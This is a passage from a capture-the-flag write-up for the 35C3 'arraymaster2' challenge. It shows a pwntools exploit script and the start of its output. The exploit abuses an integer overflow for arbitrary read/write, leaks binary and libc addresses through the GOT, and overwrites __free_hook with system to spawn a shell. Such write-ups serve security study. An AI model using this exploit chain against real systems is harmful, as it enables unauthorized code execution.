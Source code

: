 ```python
def quit(proc):
    read_menu(proc)
    proc.sendline("quit")
    log.info("Quitting...")

parser = argparse.ArgumentParser()
parser.add_argument("-r", "--remote", help="Execute on remote server", action="store_true")
args = parser.parse_args()

e = ELF(LOCAL_PATH)
libc = ELF(get_libc_path(args.remote))

p = get_process(args.remote)

init(p, "A", 64, (0xFFFFFFFFFFFFFFFF+1)/8)

init(p, "B", 64, 1)

# Entries 0, 1, 2, 3 are malloc metadata
assert(get_entry(p, "A", 4) == 1)
assert(get_entry(p, "A", 5) == 64)
original_arr = get_entry(p, "A", 6)
int64_get_runtime_address = get_entry(p, "A", 7)
int64_set_runtime_address = get_entry(p, "A", 8)
assert(int64_set_runtime_address - int64_get_runtime_address == e.symbols["int64_set"] - e.symbols["int64_get"])

e.address = int64_set_runtime_address - e.symbols["int64_set"] 

set_entry(p, "A", 6, e.got["free"])
free_runtime_address = get_entry(p, "B", 0)

libc.address = free_runtime_address - libc.symbols["free"]
assert(libc.address & 0xFFF == 0)

"""
Worked locally but not on the remote server:
set_entry(p, "A", 8, get_one_gadget(libc.address, args.remote) )
set_entry(p, "B", 0, 0)
"""


set_entry(p, "A", 6, libc.symbols["__free_hook"])
set_entry(p, "B", 0, libc.symbols["system"])
#p.sendline("quit; cat flag.txt")
p.sendline("quit; /bin/sh")

p.interactive()
```

The output:
```console
root@kali:/media/sf_CTFs/35c3ctf/arraymaster2# python exploit.py -r
[*] '/media/sf_CTFs/35c3ctf/arraymaster2/arraymaster2'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
[*] '/media/sf_CTFs/35c3ctf/arraymaster2/libc-2.27.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
```